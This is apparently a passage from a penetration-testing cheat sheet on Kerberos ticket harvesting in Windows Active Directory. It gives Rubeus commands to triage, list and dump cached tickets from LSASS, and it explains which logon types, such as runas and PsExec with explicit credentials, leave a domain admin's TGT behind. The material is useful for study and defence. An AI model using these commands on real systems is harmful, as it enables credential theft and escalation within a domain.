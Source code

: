 

Triage All Current Tickets (If Elevated List all Users)

```powershell
PS C:\Users\m0chan> .\Rubeus.exe triage
```

List all Current Tickets in Details (If Elevated List all Users)

```powershell
PS C:\Users\m0chan> .\Rubeus.exe klist
```

Dump all Current Ticket Data (If Elevated List all Users)

```powershell
PS C:\Users\m0chan> .\Rubeus.exe dump
```

*Realistically when you are dumping tickets if you are limited to `TGS` then you are limited so the true aim here is to get a `TGT` ticket of a user*

*Inside Rebeus, `TGT` are the `KRBTGT` user ones and `TGS's` are the ones with specific service names beside them, for ex. cifs/http/ldap etc*



I want to take this time to talk about what exactly leaves Kerberos tickets (TGS/TGT's) in `LSSAS` on Windows Machines as this had me confused for a while, due to the wide range of logon-types available.

When you authenticate to a Kerberos service with your `TGT` you are granted a `TGS` which is stored in `LSSAS` for future use as per it's expire time etc, your `TGT` won't even end up on the remote host. 



However there are ways for your `TGT` to be left on a remote host and that is if you create a interactive logon-session to a remote host your `TGT` will be left present on the remote-host as well as a RemoteInteractive Logon.

This is a great resource on the types of Logon Types:

 https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material



Types of Interactive Logon-Sessions

```powershell
Local Login: Physically Logging in at Your Workstation

runas: Perhaps you are a Low Level Helpdesk who uses /runas to spawn a CMD with DA Account, this will result in a TGT for the DA account be cached in LSSAS

runas /netonly: TGT will appear after running a network command (\\IP\SYSVOL) or something

PsExec \\server -u user -p pwd cmd - PSExec leaves a TGT providing explicit credentials were defined
```
